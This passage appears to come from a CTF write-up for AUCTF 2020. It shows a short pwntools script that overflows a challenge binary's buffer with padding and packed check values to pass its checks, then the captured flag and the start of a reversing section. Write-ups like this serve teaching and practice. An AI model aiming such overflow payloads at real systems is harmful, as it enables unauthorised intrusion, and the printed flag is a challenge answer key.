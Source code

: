 Creating the script is fairly simple with [pwntools](https://github.com/Gallopsled/pwntools). 

```python
#RazviOverflow
from pwn import *

binary = remote("challenges.auctf.com", 30011)
#binary = process("./turkey")

padding = "A" * 16
firstcheck = p32(0x2a)
secondcheck = p32(0x15)
thirdcheck = p32(0x667463)
forthcheck = p32(0xffffffeb)
fifthcheck = p32(0x1337)


print binary.recvuntil("Sorry that's all I got!")
binary.sendline(padding+firstcheck+secondcheck+thirdcheck+forthcheck+fifthcheck)
print binary.recvall()

```

<p align="center">
  <img src="/images/CTF/AUCTF2020/pwn16.png" />
</p>

The flag is: The flag is: auctf{I_s@id_1_w@s_fu11!}

# Reversing

## Cracker Barrel

<p align="center">